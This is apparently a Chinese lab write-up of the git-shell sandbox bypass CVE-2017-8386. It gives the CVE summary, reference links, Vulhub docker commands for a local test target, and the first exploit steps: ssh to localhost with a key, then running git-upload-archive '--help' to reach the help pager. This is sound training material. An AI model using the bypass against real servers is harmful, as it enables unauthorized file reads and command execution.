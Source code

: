 # git-shell 沙盒绕过漏洞 CVE-2017-8386

[CIRCL:CVE-2017-8386 Summary :  ](https://cve.circl.lu/cve/CVE-2017-8386)git-shell in git before 2.4.12, 2.5.x before 2.5.6, 2.6.x before 2.6.7, 2.7.x before 2.7.5, 2.8.x before 2.8.5, 2.9.x before 2.9.4, 2.10.x before 2.10.3, 2.11.x before 2.11.2, and 2.12.x before 2.12.3
通过身份验证的远程用户以 - （破折号）字符开头的存储库名称获取权限。

GIT-SHELL 沙盒绕过（CVE-2017-8386）导致任意文件读取、可能的任意命令执行漏洞。

参考链接：
- [https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/](https://insinuator.net/2017/05/git-shell-bypass-by-abusing-less-cve-2017-8386/)
- [https://www.anquanke.com/post/id/86067](https://www.anquanke.com/post/id/86067)
- [https://www.leavesongs.com/PENETRATION/git-shell-cve-2017-8386.html](https://www.leavesongs.com/PENETRATION/git-shell-cve-2017-8386.html)
- [https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386](https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386)

## 靶场环境构建
使用 Vulhub 一键搭建漏洞测试靶场

```bash

git clone https://github.com/vulhub/vulhub.git

cd git/CVE-2017-8386/

sudo docker-compose build

sudo docker-compose up -d

```

## 漏洞利用实战
ref:
- [https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386](https://github.com/vulhub/vulhub/tree/master/git/CVE-2017-8386)

在连接以前，需要先设置私钥的权限为0600：`chmod 0600 id_rsa`，否则连接可能失败。


```bash
# 私钥的权限为0600
chmod 0600 id_rsa

# 会被git-shell给拦截，返回错误fatal: unrecognized command ''，并且连接被关闭
ssh -p 3322 -i id_rsa git@127.0.0.1

# 使用--help技巧，连接目标并进入帮助页面
ssh -p 3322 -i id_rsa -t git@127.0.0.1 "git-upload-archive '--help'"

```
